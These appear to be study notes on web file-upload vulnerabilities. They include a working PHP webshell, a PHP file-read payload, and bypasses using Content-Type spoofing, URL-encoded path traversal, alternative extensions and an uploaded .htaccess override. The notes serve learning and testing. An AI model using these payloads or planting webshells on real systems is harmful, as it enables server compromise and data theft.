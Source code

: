 To read contents of an arbitrary file:
```Php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

Simple webshell:
```PHP
// exploit.php content:
<?php echo system($_GET['command']); ?>

// then do the following request:
GET /example/exploit.php?command=id HTTP/1.1
```

When sending your form inputs the browser will send a post request with Content-Type: application/x-www-form-url-encoded. But this cannot be enough for sending binary data like PDF files, etc. For that, Content-Type should be multipart/form-data.

## Web shell upload via Content-Type restriction bypass
Upload a php file
Just change Content-Type header value to image/jpeg or image/png
Boom!

## Web shell upload via path traversal

We first try to upload the file and see the response:
![[Pasted image 20220327214544.png]]

Now we try directory traversal to see if we can save the file to another directory:
![[Pasted image 20220327214701.png]]
We see that the server prevents our path traversal attempt by removing characters. 

Now we URL encode our input and try again:
![[Pasted image 20220327214828.png]]
BOOM! With a simple URL encode, we can bypass the restriction and save the file to /files directory!

## Insufficient blacklisting of dangerous file types
Sometimes servers block uploading of files with the extension .php, etc.
But we can simply bypass this by changing the extension to .php5, .shtml, etc.

## Overriding server configs
Usually servers have config files in which extensions to be executed are declared.
For a .php file to be executed by a client's request, a developer may add the following to /etc/apache2/apache2.conf:
```
LoadModule php_module /usr/lib/apache2/modules/libphp.so AddType application/x-httpd-php .php
```

Many servers will allow directory specific config files to override or to be added to the global ones. For example, in Apache, directory specific config files are loaded from .htaccess file.
Similarly, IIS server can be configured to do the same via web.config file:
```
<staticContent> <mimeMap fileExtension=".json" mimeType="application/json" /> </staticContent>
```

Let's upload a .htaccess file with our own configuration to make a file with an extension not blocked by the server to be executed as php file.
.htaccess content:
```
AddType application/x-httpd-php .fun
```

Now, if we just change the extension of our php file to .fun, it will not be blocked, and will be uploaded. Then we can call it and have it executed by the server.
